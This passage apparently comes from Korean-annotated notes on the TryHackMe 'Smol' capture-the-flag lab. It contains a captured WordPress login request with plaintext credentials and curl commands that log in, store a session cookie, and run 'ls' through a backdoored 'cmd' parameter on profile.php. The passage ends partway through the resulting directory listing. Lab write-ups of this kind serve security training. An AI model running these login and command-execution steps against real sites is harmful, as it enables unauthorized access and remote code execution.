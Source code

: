 # IP: 10.10.97.230

POST /wp-login.php HTTP/1.1
Host: www.smol.thm
Content-Length: 168
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://www.smol.thm
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10*15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/\_;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://www.smol.thm/wp-login.php?redirect_to=http%3A%2F%2Fwww.smol.thm%2Findex.php%2F2023%2F08%2F16%2Frce%2F
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Connection: keep-alive

log=wpuser&pwd=kbLSF2Vop%23lw3rjDZ629\*Z%25G&rememberme=forever&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwww.smol.thm%2Findex.php%2F2023%2F08%2F16%2Frce%2F&testcookie=1

# login -> gui 불편하니까 cli 환경으로 전환

curl -i -X POST "http://www.smol.thm/wp-login.php" -H "Content-Type: application/x-www-form-urlencoded" -H "User-Agent: Mozilla/5.0" --data "log=wpuser&pwd=kbLSF2Vop%23lw3rjDZ629\*Z%25G&rememberme=forever&wp-submit=Log+In&redirect_to=http://www.smol.thm/wp-admin/" -c cookie.txt

# 이제 RCE 취약점이 있는 위치 탐색하기

curl -b cookie.txt -L http://www.smol.thm/wp-admin

# 바로 발견! -> 플러그인을 wp 전역에서 사용하는 걸로 보임

curl -b cookie.txt -L http://www.smol.thm/wp-admin/profile.php?cmd=ls

about.php
admin-ajax.php
admin-footer.php
admin-functions.php
admin-header.php
admin-post.php
admin.php
async-upload.php
authorize-application.php
comment.php
contribute.php
credits.php
css
custom-background.php
custom-header.php
customize.php
edit-comments.php
edit-form-advanced.php
edit-form-blocks.php
edit-form-comment.php
edit-link-form.php
edit-tag-form.php
edit-tags.php
edit.php